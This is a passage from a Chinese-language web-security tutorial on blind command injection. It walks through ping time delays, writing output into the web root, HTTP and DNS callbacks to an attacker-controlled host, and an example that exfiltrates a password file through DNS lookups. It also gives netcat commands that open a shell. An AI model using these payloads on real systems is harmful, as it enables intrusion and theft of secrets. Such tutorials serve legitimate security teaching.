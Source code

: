 **<a class="reference-link" name="%E5%BB%B6%E6%97%B6"></a>延时**

可以使用注入的命令来触发时间延迟，从而根据应用程序响应的时间来确认命令是否已执行。`ping`命令是执行此操作的有效方法，因为它可以指定要发送的ICMP数据包的数量，从而指定该命令的运行时间：

```
&amp; ping -c 10 127.0.0.1 &amp;
```

此命令将导致应用程序ping其环回网络适配器10秒钟。

**<a class="reference-link" name="%E9%87%8D%E5%AE%9A%E5%90%91%E8%BE%93%E5%87%BA"></a>重定向输出**

我们可以将注入命令的输出重定向到Web根目录下的文件中，然后使用浏览器进行检索。例如，如果应用程序从文件系统location提供静态资源`/var/www/static`，那么您可以提交以下输入：

```
&amp; whoami &gt; /var/www/static/whoami.txt &amp;
```

其中`&gt;`字符能将`whoami`命令的结果输出到指定的文件。然后，我们可以使用浏览器来读取`https://vulnerable-website.com/whoami.txt`文件，并查看注入命令的输出。

**<a class="reference-link" name="HTTP%E8%AF%B7%E6%B1%82"></a>HTTP请求**

目标机通过向公网可通信的机器发起http请求，而这个公网可通信的机器是我们可控的，则当该公网机子收到http请求就代表命令有执行。

例：我们在公网机上可以通过”nc -lv 端口号”来监听该端口，当目标机”curl 公网机ip:端口号”的时候，公网机的该端口可以发现有http请求过来。（注意：ping命令不产生http请求）

**<a class="reference-link" name="DNSlog%E5%A4%96%E5%B8%A6"></a>DNSlog外带**

利用域名解析请求。假设我们有个可控的二级域名，那么目标发出三级域名解析的时候，我们这边是能够拿到它的域名解析请求的，可以配合DNS请求进行命令执行的判断，这一般被称为dnslog。（要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现）

例：可以去ceye.io注册个账号，注册完后会给一个域名，如果有域名解析请求会有记录。

如得到的域名是test.ceye.io，当有主机访问1111. test.ceye.io时，就会记录下来这个域名解析请求。其中`1111`可以替换成我们需要获取的信息。

如：`cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012b1ac20eadd1a444.png)

wireshark抓的包中的数据：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0101c0226a2c6e3d6e.png)

**<a class="reference-link" name="%E5%8F%8D%E5%BC%B9shell"></a>反弹shell**

以上方法很有效，但能反弹shell更好XD。

```
nc -L -p 9090 -e cmd.exe (Windows)
nc -l -p 9090 -e /bin/bash (*nix)
```

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7"></a>绕过技巧

<a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C"></a>**命令执行**

